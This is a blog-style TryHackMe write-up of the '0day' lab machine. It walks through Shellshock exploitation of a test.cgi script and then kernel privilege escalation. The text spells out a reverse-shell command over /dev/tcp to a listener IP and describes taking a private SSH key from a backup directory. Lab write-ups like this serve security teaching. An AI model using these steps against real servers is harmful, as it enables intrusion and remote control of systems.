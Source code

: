 ```yaml
---
title: 0day - TryHackMe
author: Sujit Suryawanshi
date: 2020-11-09 15:10:00 +0800
categories: [TryHackMe]
tags: [tryhackme, 0day, shellshock]
---
```


<h3 data-toc-skip>0day - TryHackMe</h3>


![Desktop View]({{ "/assets/img/thm-machines/0day-main.png" | relative_url }})

Hey All, Hope you all are safe and doing well. Today I'm gonna do 0day machine by Ryan Montgomery on TryHackMe.It's really good machine on ShellShock Vulnerability which is available in cgi-bin directory with test.cgi file name and the Privilage Escalation is also awesome because of the old kernel version.

So what is exactly ShellShock Vulnerability?

As per NetSparker, Shellshock is a security bug causing Bash to execute commands from environment variables unintentionally. In other words if exploited the vulnerability allows the attacker to remotely issue commands on the server, also known as remote code execution.
Since the environment variables are not sanitized properly by Bash before being executed, the attacker can send commands to the server through HTTP requests and get them executed by the web server operating system.
The ShellShock Vulnerability, discovered by Stephane Chazelas was assigned the CVE identifier CVE-2014-6271.

Now let's go for practical to understand and hack this machine.

**This blog is meant for educational purposes only.**

---

First starting with Nmap, I found two open ports that is Port 22 and Port 80. Here Port 22 is running OpenSSH 6.6.1p1 service and Port 80 is running Apache - 2.4.7 service on Ubuntu Operating System.

![Desktop View]({{ "/assets/img/thm-machines/0day-nmap.png" | relative_url }})

For further enumeration, I moved to Port 80 to check which kind of web application is running.

![Desktop View]({{ "/assets/img/thm-machines/0day-website.png" | relative_url }})

So the web application was static. Lets run Dirsearch with common.txt to discover more content/directories of this web application.
On other hand I started Nikto on this web application to identify common vulnerabilities.

The Dirsearch gave me below result which contains a lot of sensitive directories.

![Desktop View]({{ "/assets/img/thm-machines/0day-dirsearch.png" | relative_url }})

I started visiting one by one to enumerate and to find something fruitful.

In **/admin** directory, I got nothing and it was totally blank page so I moved towards **/backup** directory and it gave me Private SSH key.

![Desktop View]({{ "/assets/img/thm-machines/0day-ssh-key.png" | relative_url }})

Next, I saved that key and tried to login into server with different usernames such as root, admin, ryan etc but none them worked. The SSH key was asking password to login and I was doubting on this SSH key as it can be rabbit hole.

![Desktop View]({{ "/assets/img/thm-machines/0day-ssh-error.png" | relative_url }})

At last I moved further to enumerate other directories of web application.

But before that I checked Nikto's result and it gave me a lot of hints.

![Desktop View]({{ "/assets/img/thm-machines/0day-nikto.png" | relative_url }})

In above screenshot you can see Nikto gave one uncommon header which is actually a CVE id of ShellShock Vulnerability and also it gave /cgi-bin/test.cgi file.
For exploitation, I googled CVE id and checked one Github page there I got Oneliner to test and confirm the ShellShock Vulnerability.

![Desktop View]({{ "/assets/img/thm-machines/0day-github.png" | relative_url }})

After trying above Oneliner, I confirmed the ShellShock Vulnerability and continued to get reverse shell of server.

![Desktop View]({{ "/assets/img/thm-machines/0day-oneliner.png" | relative_url }})

After using Onliner with **sh>&/dev/tcp/10.10.10.10/1337 0>&1** command, I got initial shell. Here we are redirecting the output of bash on 10.10.10.10 with Port 1337 using /dev/tcp connection.

![Desktop View]({{ "/assets/img/thm-machines/0day-reverse-shell.png" | relative_url }})

Now it's time to upgrade our shell and start enumeration to get higher privileged user.

I used python tty and set PATH environment to upgrade my shell.

After going to **/home** directory I got **ryan** user and also I was able to read his flag as the read permission was given.

![Desktop View]({{ "/assets/img/thm-machines/0day-user-flag.png" | relative_url }})

After running **LinPeas.sh** for Privilege Escalation, I got vulnerable Linux Kernel version.

![Desktop View]({{ "/assets/img/thm-machines/0day-linpeas.png" | relative_url }})

Here SearchSploit helped me to get the exploit.

![Desktop View]({{ "/assets/img/thm-machines/0day-searchsploit.png" | relative_url }})

After running the exploit, I got the root!!!

![Desktop View]({{ "/assets/img/thm-machines/0day-root-flag.png" | relative_url }})

If you want detailed explanation about this Privilage Escalation vulnerability then go [here](https://www.halfdog.net/Security/2015/UserNamespaceOverlayfsSetuidWriteExec/)

Thanks for reading this writeup and all suggestions are welcome.
